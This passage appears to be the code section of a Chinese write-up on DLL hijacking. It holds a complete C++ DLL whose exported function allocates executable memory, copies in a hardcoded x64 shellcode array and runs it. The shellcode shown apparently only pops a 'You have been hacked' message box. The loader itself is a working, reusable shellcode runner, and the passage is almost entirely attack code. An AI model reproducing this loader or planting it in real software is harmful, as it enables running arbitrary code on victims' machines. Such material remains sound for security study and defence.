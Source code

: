 
# 0x03 代码实现

```
// dllhook.cpp : 定义 DLL 应用程序的入口点。
#include "pch.h"

BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
	switch (ul_reason_for_call)
	{
	case DLL_PROCESS_ATTACH:
	case DLL_THREAD_ATTACH:
	case DLL_THREAD_DETACH:
	case DLL_PROCESS_DETACH:
		break;
	}
	return TRUE;
}

extern "C" __declspec(dllexport) int spotlessExport() {
	unsigned char shellcode[] =
		"\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41\x51"
		"\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x3e\x48"
		"\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72\x50\x3e\x48"
		"\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02"
		"\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x3e"
		"\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48\x01\xd0\x3e\x8b\x80\x88"
		"\x00\x00\x00\x48\x85\xc0\x74\x6f\x48\x01\xd0\x50\x3e\x8b\x48"
		"\x18\x3e\x44\x8b\x40\x20\x49\x01\xd0\xe3\x5c\x48\xff\xc9\x3e"
		"\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41"
		"\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24"
		"\x08\x45\x39\xd1\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0"
		"\x66\x3e\x41\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e"
		"\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41"
		"\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
		"\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7\xc1"
		"\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e\x4c\x8d"
		"\x85\x33\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83\x56\x07\xff"
		"\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd\x9d\xff\xd5\x48"
		"\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13"
		"\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5\x59\x6f\x75\x20\x68"
		"\x61\x76\x65\x20\x62\x65\x65\x6e\x20\x68\x61\x63\x6b\x65\x64"
		"\x20\x5e\x5f\x5e\x00\x49\x6d\x70\x6f\x72\x74\x61\x6e\x74\x20"
		"\x57\x61\x72\x6e\x69\x6e\x67\x21\x00";
	void* exec = VirtualAlloc(0, sizeof shellcode, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	memcpy(exec, shellcode, sizeof shellcode);
	((void(*)())exec)();

	return 0;
}
```
